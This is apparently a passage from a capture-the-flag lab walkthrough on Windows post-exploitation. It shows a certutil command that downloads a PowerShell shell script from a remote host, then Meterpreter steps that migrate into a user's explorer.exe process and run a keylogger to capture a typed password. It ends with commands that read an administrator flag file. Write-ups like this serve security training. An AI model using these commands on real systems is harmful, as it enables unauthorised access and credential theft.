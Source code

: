`certutil.exe -urlcache -split -f http:///shell.ps1`

Once you have a meterpreter shell, you can continue. The first step is to see if the users have any running processes on this machine:

```shell-session
meterpreter\>ps | grep "explorer"
Filtering on 'explorer'

Process List
============

 PID   PPID  Name          Arch  Session  User                     Path
 ---   ----  ----          ----  -------  ----                     ----
 3612  3592  explorer.exe  x64   1        THMSERVER1\trevor.local  C:\Windows\explorer.exe
```

**Note:** If you do not see an explorer.exe process for the trevor.local user, you can start the process yourself by performing the following steps:

1. Reset the password of the trevor.local user using the following command: `net user trevor.local <chosen password>`
2. Run the following in powershell: `C:\auto-login.ps1 trevor.local <chosen password> THMSERVER1`
3. Reboot the server using `shutdown -r`
4. Once the server is back online, you should see the explorer process.

It seems like we are lucky! The user has an active session on THMSERVER1. Let's migrate to a process of this user. The safest bet is usually sometime like explorer.exe:

```shell-session
meterpreter\>migrate 3612
[*] Migrating from 4408 to 3612...
[*] Migration completed successfully.
```

We can confirm that we are now running in the context of our target using the getuid command:

```shell-session
meterpreter\>getuid
Server username: THMSERVER1\trevor.local
```

Now we are ready to start our keylogger:

```shell-session
meterpreter\>keyscan_start
Starting the keystroke sniffer ...
```

Now we have to be patient and wait. If we are lucky, we will capture some credentials! Give it a couple of minutes, and then run the following to dump captured keystrokes:

```shell-session
meterpreter\>keyscan_dump
Dumping captured keystrokes...
keep<CR>
<Shift>Passwordpasswordpassword<CR>
```


[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> type C:\Users\Administrator\Desktop\flag2.txt